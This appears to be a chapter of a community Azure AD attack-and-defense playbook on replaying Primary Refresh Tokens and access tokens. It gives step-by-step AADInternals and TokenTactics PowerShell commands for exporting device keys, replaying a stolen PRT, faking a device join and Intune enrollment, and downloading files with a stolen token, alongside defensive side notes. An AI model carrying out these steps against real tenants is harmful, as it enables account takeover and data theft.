# Replay of Primary Refresh (PRT) and other issued tokens from an Azure AD joined device

_Author: Sami Lamppu and Thomas Naunheim_
_Created: August 2022_

**Table of Content**
  - [Introduction](#introduction)
    - [Background](#background)
  - [Attack scenarios](#attack-scenarios)
    - [Primary Refresh Token (PRT)](#primary-refresh-token-prt)
      - [Replay PRT with exfiltrated transport and session keys](#replay-prt-with-exfiltrated-transport-and-session-keys)
      - [Provisioning a new device to extract unprotected PRT keys (during the grace period)](#provisioning-a-new-device-to-extract-unprotected-prt-keys-during-the-grace-period)
    - [Refresh Token (RT)](#refresh-token-rt)
    - [Access Token (AT)](#access-token-at)
      - [A replay of CAE-capable Access Token](#a-replay-of-cae-capable-access-token)
      - [Stealing Access Token outside of device with Azure Cloud Shell](#stealing-access-token-outside-of-device-with-azure-cloud-shell)
  - [Detections](#detections)
    - [Suspicious authentication and activity to access PRT](#suspicious-authentication-and-activity-to-access-prt)
      - [Microsoft Defender for Endpoint (MDE)](#microsoft-defender-for-endpoint-mde)
    - [Suspicious Activity in Cloud Session](#suspicious-activity-in-cloud-session)
      - [Defender for Cloud Apps (MDA)](#defender-for-cloud-apps-mda)
    - [User Page - UEBA](#user-page---ueba)
      - [App Governance (MDA add-on)](#app-governance-mda-add-on)
      - [Sentinel - UEBA](#sentinel---ueba)
      - [Defender for Cloud (MDC)](#defender-for-cloud-mdc)
    - [Additional Detections & Hunting](#additional-detections--hunting)
      - [Sentinel - Hunting Queries](#sentinel---hunting-queries)
  - [Mitigations](#mitigations)
    - [Increase visibility by implementing detections](#increase-visibility-by-implementing-detections)
    - [Enforce TPM-protection](#enforce-tpm-protection)
    - [Protection of endpoint and processes](#protection-of-endpoint-and-processes)
    - [Automated response to identity risk detection](#automated-response-to-identity-risk-detection)
  - [Appendix](#appendix)
    - [Research work on Primary Refresh Token (PRT)](#research-work-on-primary-refresh-token-prt)
    - [Used tools and references](#used-tools-and-references)
      - [Offensive Tools related to Primary Refresh Token (PRT)](#offensive-tools-related-to-primary-refresh-token-prt)
      - [Access Token](#access-token)
      - [Refresh Token](#refresh-token)
      - [ID Token](#id-token)
      - [Primary Refresh Token (PRT)](#primary-refresh-token-prt-1)
    - [Cryptographic key pairs during Device Registration (to protect PRT)](#cryptographic-key-pairs-during-device-registration-to-protect-prt)
      - [Transport Key (tkpub/tkpriv) & Device Key (dkpub/dkpriv)](#transport-key-tkpubtkpriv--device-key-dkpubdkpriv)
      - [Nonce](#nonce)
      - [Session Key](#session-key)
    - [Session and token management in Azure AD](#session-and-token-management-in-azure-ad)
      - [Token lifetime](#token-lifetime)
      - [Revocation](#revocation)
    - [Windows components for requesting and using a PRT](#windows-components-for-requesting-and-using-a-prt)

## Introduction

Welcome to the 5th chapter of the ‘Azure AD Attack & Defense Playbook’. It has been quite a journey to write this playbook with other community members. The 5th chapter, ‘Replay of Primary Refresh Token (PRT), and other issued tokens from an Azure AD Joined Device’ has been the most complex one of all. 

We started to work with it in late April so totally it has taken 4 months of calendar time. During these 4 months, we’ve spent countless hours in our labs, had approximately two (2) Teams call per week, shared our findings with each other, and also asked for opinions from other community members. We would like to thank [Fabian Bader](https://twitter.com/fabian_bader), [Christopher Brumm](https://twitter.com/cbrhh) and [Joosua Santasalo](https://twitter.com/SantasaloJoosua) for their help with verifying our research findings and have discussions on the mysterious world of token(s).

### Background

Microsoft has introduced Windows 11 with the requirement to use a Trusted Platform Module (TPM) chip. This has greatly increased the capabilities to use Windows 11 OS security features including an extra layer of protection for cloud-based authentication scenarios. The Primary Refresh Token (PRT) and other relevant keys can be well protected by TPM in Windows 11 but also in Windows 10 and Windows Server versions from 2016 and above. Taking this into account in this paper we mainly focus on the following scenarios:

- Attack scenario with PRT and easy mitigation options (enforce TPM and device compliance) to reduce the attack surface. This will also covers considerations and dependencies in security configuration and cooperation of components to prevent successful token replay attacks.
- Detection capabilities of abusing access token after AuthN/AuthZ with cloud session anomalies by Microsoft Defender for Cloud Apps (MDA) and Microsoft Defender for Cloud (MDC).

## Attack scenarios

This chapter describes common attack scenarios referring to replay tokens from Azure AD-joined devices. In the detection chapter, you can expect to find different options and approaches to detect suspicious activities. In the mitigation chapter, we provide alternative approaches for reducing the attack surface.

### Primary Refresh Token (PRT)



#### Replay PRT with exfiltrated transport and session keys

**Attack Description**

Attackers try to steal PRT from non-TPM-protected devices because the security chip is not available or has been disabled. Detection delay allows to steal the token and using token for a short period of time even if access to PRT and missing healthy TPM state (Intune Device Compliance) has been recognized.

**Pre-requisites**

- TPM has been disabled or is not available (permissions to modify TPM availability as Hyper-V administrator or access to UEFI/BIOS)
- Local Administrator permissions

**Attack use cases**

- Azure and Hyper-V Machines with Generation 1 (without TPM support) or older instances or images of W365/AVD without TPM support
- Attackers have been able to disable TPM temporary (physical: BIOS/UEFI, Azure/Hyper-V: Security settings)

**Steps to simulate an attack**

1. Verify TPM has been disabled or is not available
2. The user needs to re-enter credentials because previous PRT keys from TPM are not available anymore.
3. Run AADInternals as Administrator on the victim’s device:
    
    ```powershell
    Export-AADIntLocalDeviceCertificate
    Export-AADIntLocalDeviceTransportKey
    ```
    
4. Restart PowerShell with AADInternals module in user context
    
    ```powershell
    $DeviceId = Read-Host
    Get-AADIntUserPRTKeys -PfxFileName '.\$($DeviceId).pfx' `
    -TransportKeyFileName '.\$($DeviceId)_tk.pem'
    ```
    
5. Run AADInternals as Administrator on attacker’s device: 
    
    ```powershell
    $DeviceId = Read-Host
    $PrtJson = Get-Content -Path .\$($DeviceId).json | ConvertFrom-Json
    $PrtToken = New-AADIntUserPRTToken -GetNonce -RefreshToken $($PrtJson.refresh_token) -SessionKey $($PrtJson.session_key)
    Get-AADIntAccessTokenForAADGraph -PRTToken $PrtToken –SaveToCache
    Get-AADIntAccessTokenForMSGraph -PRTToken $PrtToken –SaveToCache
    ```
    
6. Optional: Re-activate TPM to recover health check if device compliance is configured
7. Continue to use PRT and session keys or refresh token which will be valid. Device compliance status is not directly included in token, deviceId as a claim will be used to check current compliance.

**Side notes and research results**

- There might be a significant delay (depending on how MEM compliance policies are configured) until device compliance will be re-evaluated and detects missing TPM
    - Microsoft has given a statement in Docs regarding the [device compliance check interval](https://docs.microsoft.com/en-us/mem/intune/configuration/device-profile-troubleshoot#how-long-does-it-take-for-devices-to-get-a-policy-profile-or-app-after-they-are-assigned):
        - “Every 3 minutes for 15 minutes, then every 15 minutes for 2 hours, and then around every 8 hours”
    - Consider any grace period which has been configured in the Device Compliance policies
    - Critical MDE detections which increase machine risk score (e.g. detection of offensive tools, such as mimikatz) should trigger a playbook to revoke refresh tokens. User entity should be included in the M365 Defender incident to set the target user of the SOAR action.
- Microsoft Defender for Endpoint (MDE) detects attempts to access PRT on Windows devices. This detection will be forwarded to Azure AD Identity Protection (IPC) as premium user risk detection (offline). User risk will be raised to “high” with the detection name “Possible attempt to access Primary Refresh Token (PRT)”
- The session key seems to be “renewed” if TPM has been (re)enabled. The previously stolen session key cannot be used in combination with the “new” PRT (refresh token) after (re)enabling TPM on the same machine.
- After re-enabling TPM, PRT keys will be still saved outside of the security chip even if the refresh token or password/credentials have been changed or revoked.
- Resetting the TPM state (Clear-TPM) and deleting the WHfB container (certutil.exe -DeleteHelloContainer) does not enforce secure store of PRT when TPM is available. Consider unprotected PRT (outside of TPM) even if the Device Compliance verifies the availability of the security chip. Always verify the TPM protection status using “dsregcmd /status”
    
    
    
    
    
- Disable vTPM on a Trusted Platform VM has broken AADLogin functionality during our tests. Azure AD Users aren’t able to use SSO authentication on RDP.
- PRT can be used in combination with hybrid Windows Hello for Business and FIDO2 security keys deployment to gain Partial TGT. This also allows a scenario to gain access to on-premises resources.
- PRT is also available on non-Windows devices, such as iOS or Android. Consider the options for exfiltration on those devices which don’t offer TPM protection.
- Stolen PRT from a hybrid/compliant device can be used to satisfy device-based Conditional Access Policies in combination with a sign-in of another user. More details in Twitter post by [Dirk-jan Mollema.](https://twitter.com/_dirkjan/status/1552990355079008256)

#### Provisioning a new device to extract unprotected PRT keys (during the grace period)

**Attack Description**

Attackers have owned credentials or Temporary Access Pass (TAP) to register a new device and steal PRT from non-TPM protect devices. Device compliance includes a grace period time which allows exfiltration of unprotected tokens in the early hours after the device has been provisioned.

**Pre-requisites**

- Require MFA to register devices can be satisfied by strong authentication claim in token
- No device enrollment restriction, user are able to register their own devices
- Device Compliance to verify TPM has been configured with grace period
    - Access to PRT without TPM protection and enforced compliance status is available during that time.

**Steps to simulate an attack**

1. Install Windows 11 with enabled TPM
2. Disable TPM after installation (but before registering the device in Azure AD) to have access to unprotected PRT 
3. Run steps to exfiltrate PRT and session/transport key as described in the previous attack
4. Turn on TPM and wait until device configuration applies and compliance check updates the device status to “healthy”
5. Replay and use the exfiltrated PRT which is covered by the healthy device compliance state now.
Stolen PRT includes deviceId (not the Device Compliance Status) which will be used by Azure AD to check the current device compliance status of Intune. 

**Side notes and research results**

- Require user re-authentication during [Intune device enrollment](https://docs.microsoft.com/en-us/mem/intune/fundamentals/deployment-guide-enrollment) can be configured by [sign-in frequency and session management](https://docs.microsoft.com/en-us/azure/active-directory/conditional-access/howto-conditional-access-session-lifetime) in Conditional Access. It requires satisfying MFA regardless of their current authentication claim and status in the token.
- [Nestori Syynimaa](https://twitter.com/DrAzureAD) has written a detailed blog post about [stealing and faking Azure AD device identities](https://o365blog.com/post/deviceidentity/). This includes also steps to create an Azure AD device object and get device certificates by abusing a replayed PRT. The following cmdlets can be used to verify the steps:
    
    ```powershell
    # Use PRT from other device
    $DeviceIdOfReplayPrt = Read-Host -Prompt "Device ID of Replayed PRT"
    $UserPrincipalName = Read-Host -Prompt "User Principal Name"
    $PrtJson = Get-Content -Path .\$DeviceIdOfReplayPrt.json | ConvertFrom-Json
    $prtToken = New-AADIntUserPRTToken -Settings $prtjson -GetNonce
    $at = Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
    
    # Alternate: Use Credentials or Temporary Access Pass
    Get-AADIntAccessTokenForAADJoin -SaveToCache
    
    # "Join" the device to Azure AD
    Join-AADIntDeviceToAzureAD -DeviceName "MyFakePc" -DeviceType "Windows" -OSVersion "10.0.22000.613"
    
    $AadJoinedDeviceId = Read-Host -Prompt "Device ID of the previous AAD-joined device"
    Join-AADIntLocalDeviceToAzureAD -UserPrincipalName $UserPrincipalName -PfxFileName .\$AadJoinedDeviceId.pfx
    
    # Get access token with device id claim
    Get-AADIntAccessTokenForIntuneMDM -PfxFileName .\$AadJoinedDeviceId.pfx -SaveToCache
    
    # Enroll the device to Intune
    Join-AADIntDeviceToIntune -DeviceName "MyFakePc"
    ```
    

### Refresh Token (RT)



We’re working on a few attack scenarios to demonstrate the abuse and replay of refresh token.
Stay tuned…

### Access Token (AT)



#### A replay of CAE-capable Access Token

**Attack Description**

The default lifetime of an access token is assigned to a value between 60-90 minutes (75 minutes on average). An access token can not be revoked within a lifetime.
Continuous access evaluation (CAE) has been implemented by Microsoft to increase the token life for a better user experience and resiliency but without increasing security risks.
Therefore CAE offers the opportunity to reject tokens by the resource provider and enforce users to re-evaluate conditions for further access to Azure AD integrated resources. This feature is supported by a small number of [clients](https://docs.microsoft.com/en-us/azure/active-directory/conditional-access/concept-continuous-access-evaluation#client-side-claim-challenge) and resource providers (Exchange Online, SharePoint Online, Teams, Microsoft Graph). The supported events for re-evaluation (”[Critical event evaluation](https://docs.microsoft.com/en-us/azure/active-directory/conditional-access/concept-continuous-access-evaluation#critical-event-evaluation)”) are also limited.

Access Tokens can be acquired without encryption by TPM-protected keys. Because of the long-live time, it could be an interesting target for attackers. Especially, replay activity of the token is not visible in the Azure AD sign-in logs. Only activity log of the resource provider (e.g. SharePoint) will be shown the access from the bad actor.

**Pre-requisites**

- The CAE-capable token can be only requested and issued if the client is able to send a specific claim and the resource provider is supported by Azure AD.
    - [Fabian Bader has written a great blog post about CAE](https://cloudbrothers.info/en/continuous-access-elevation) including an [updated version of TokenTactics](https://github.com/f-bader/TokenTacticsV2).  We encourage to read Fabian’s excellent write up about this topic. 
    This allows to reproduce of many CAE use cases by sending the `xms_cc` claim with the value of `cp1` as part of the token acquisition. We strongly recommend checking his deep-dive blog post about this topic.
- A replay of access token is only successful if no critical event evaluation has been triggered
    - 401+ claim challenge to re-evaluate conditions can be only satisfied if an attacker is using a CAE-capable client and is able to pass all the conditions.
    

**Steps to simulate an attack**

1. Open in-private browser to have a session [without Browser SSO (which means also not using Primary Refresh Token and protection)](https://docs.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token#browser-sso-using-prt).
    
    
    
    Navigate to SharePoint and copy a `refresh_token` which has been marked as ‘IsCAE’ token in the sign-in logs:
    
    
    
2. [Import the updated version of TokenTactics](https://github.com/f-bader/TokentacticsV2) to your PowerShell. 
    1. Copy the stolen refresh token incl. ClientId from the previous step to the attacker's device. Run the following cmdlet to get an access token for Microsoft Graph API:
    
    ```powershell
    $MSGraphToken = RefreshTo-MSGraphToken -RefreshToken $RefreshToken -Domain $Tenant -ClientId $ClientId -UseCAE
    ```
    
3. Check the `ExpirationDate`  and `scp`  of the access_token by using the cmdlet “Parse-JwtToken”:

    
    ```powershell
    Parse-JWTtoken -token $MSGraphToken.access_token | Select ValidHours, xms_cc, scp
    ```
    
    
    
4. Now, you can use this token to exfiltrate information by [downloading content of a DriveItem with Microsoft Graph API](https://docs.microsoft.com/en-us/graph/api/driveitem-get-content?view=graph-rest-1.0&tabs=http), for example:
$ItemId = Read-Host
Invoke-MgGraphRequest -Method GET -Uri "[https://graph.microsoft.com/v1.0/me/drive/items/$($ItemId)?select=id,@microsoft.graph.downloadUrl](https://graph.microsoft.com/v1.0/me/drive/items/01NIVZIG5YQYXGXQ5MPRH3ZRVUNXFFCNRS?select=id,@microsoft.graph.downloadUrl)"

*Side Note: You can also use a [mass download script](https://gist.github.com/f-bader/e0c8dd8ccbcb48e437fb4f243de125fb) which has been written for this scenario from Fabian Bader.*
5. Another access token to a FOCI apps can be also requested. For example, Microsoft Teams:
    
```powershell
$TeamsToken = RefreshTo-MSTeamsToken -RefreshToken $RefreshToken -Domain $Tenant -ClientId $ClientId -UseCAE
```
    
6. Use AADInternals to test abusing access token by sending a message: 
    
    
    
**Side notes and research results**

- Default token lifetime variation is applied to organizations that have Continuous Access Evaluation (CAE) enabled, even if [Configurable Token Lifetime](https://docs.microsoft.com/en-us/azure/active-directory/conditional-access/concept-continuous-access-evaluation) (CTL) policies are configured. Statements from [Microsoft Docs about access token lifetime](https://docs.microsoft.com/en-us/azure/active-directory/develop/access-tokens#access-token-lifetime):
    - The ***default token lifetime for long-lived token lifetime ranges from 20 to 28 hours**. When the access token expires, the client must use the refresh token to (usually silently) acquire a new refresh token and access token.*
    - *Organizations that use Conditional Access sign-in frequency (SIF) to enforce how frequently sign-ins occur **cannot override default access token lifetime variation**.*
- [Supported trigger](https://docs.microsoft.com/en-us/azure/active-directory/conditional-access/concept-continuous-access-evaluation#critical-event-evaluation) and use cases (CAE-capable [clients](https://docs.microsoft.com/en-us/azure/active-directory/conditional-access/concept-continuous-access-evaluation#client-side-claim-challenge) and [resource providers](https://docs.microsoft.com/en-us/azure/active-directory/conditional-access/concept-continuous-access-evaluation#conditional-access-policy-evaluation)) for Critical Event Evaluation works very well to re-evaluate policies and offer an opportunity to prevent successful usage of the replayed access token. This affects also non-capable clients that will not be able to handle 401+ claim challenges (further access will be denied).
    - Access Token will not be always revoked on the victim client as part of the CAE trigger events. For example, in case of a network change by token replay of the attacker.
    - User Risk event will be not supported as CAE Trigger in Microsoft SharePoint Online. So even IPC is detecting abuse of Primary Refresh Token, long-time CAE access token will be not revoked for Microsoft SharePoint and OneDrive:
        
        
        
    - Therefore only a dedicated action to the user account (password change, user account disabled, MFA enabled) or revoke all tokens will enforce existing access tokens for CAP evaluation in all existing CAE-capable apps.
- Real-Time sign-in risks (e.g. Anonymous IP address) can not be used as CAE trigger and will not avoid a token replay. In IPC there are two kind of evaluations and detections: Sign-in (real-time) & User risk (offline) and latter one is supported as CAE trigger.
- Most AVD session hosts have been excluded from MFA by the Conditional Access Policy. It’s necessary to use a trusted IP address (in a combination with Device Filter) as a condition in the policy to have a CAE trigger (change from trusted to untrusted location).
- CAE token will be only issued for CAE-capable resource providers but also the client needs to handle CAE capability:
    - Quote from [Microsoft Docs](https://docs.microsoft.com/en-us/azure/active-directory/develop/claims-challenge?tabs=dotnet#client-capabilities): *An application will not receive claims challenges (and will not be able to use the related features such as CAE tokens) unless it declares it is ready to handle them with the "cp1" capability*.
- In the shown scenario, stealing a refresh token and bypassing session policies is possible with a reverse proxy of Microsoft Defender for Cloud Apps.
    - Description of known limitation [“Proxy can be bypassed using embedded session token” from Microsoft Docs](https://docs.microsoft.com/en-us/defender-cloud-apps/proxy-intro-aad#known-limitations): It's possible to bypass the proxy in cases where the application itself embeds the token within the links. An end user can copy the link and access the resource directly in that case.
- MDA takes an important part to detect the suspicious activity of the cloud session after Azure AD AuthN/AuthZ and Conditional Access have been satisfied. For example, exfiltrated information from replayed CAE token without MDA App Control is still audited and detected:
    
    
    
